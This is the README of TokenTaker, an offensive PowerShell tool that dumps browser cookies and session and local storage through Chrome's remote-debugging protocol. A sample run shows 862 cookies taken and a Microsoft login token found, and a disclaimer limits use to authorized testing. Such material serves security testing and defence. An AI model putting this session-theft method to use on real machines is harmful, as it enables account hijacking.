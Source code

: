 # TokenTaker

TokenTaker is a post-exploitation tool that can be used to dump all cookies, session, and local storage entries to json files and it does this through a localhost websocket connection using Chrome/Brave/Edge's remote debug functionality (Chrome DevTools Protocol).

```
PS C:\> .\TokenTaker.ps1
[+] Targeting default browser: brave at C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe
[+] Default profile directory: C:\Users\user\AppData\Local\BraveSoftware\Brave-Browser\User Data
[+] Starting brave with default profile and debugging on port 9481...
[+] Found 2 tabs.
[+] Connecting to tab: chrome://newtab/ via ws://127.0.0.1:9481/devtools/page/14C19B86195AE6F889CCF53BBFCED2F6
[+] WebSocket connected.
[+] Dumping it all...
[+] WebSocket closed.
[+] Found token for .login.microsoftonline.com
- Total Cookies: 862
- Total Local storage items: 0
- Total Session storage items: 0
[+] Dumped files saved to C:\Users\user\AppData\Local\Temp\901b7af1-32c7-47c8-a5c0-9f875d0855e1
```

You can read more about it on our blog [here](https://blog.shellntel.com/p/into-the-belly-of-the-beast).

Created by [0rbz_](https://x.com/0rbz_)

---
# Disclaimer

This tool is provided purely for educational purposes and authorized security testing only. It is intended to help users understand web browser security concepts, vulnerabilities, and to help find ways to defend against these sorts of things. Unauthorized use, including but not limited to attacking systems without explicit permission, is strictly prohibited and may violate applicable laws. The developers are not responsible for any misuse, damage, or legal consequences resulting from the use of this tool. Use responsibly and ethically, and always obtain proper consent before testing any system.

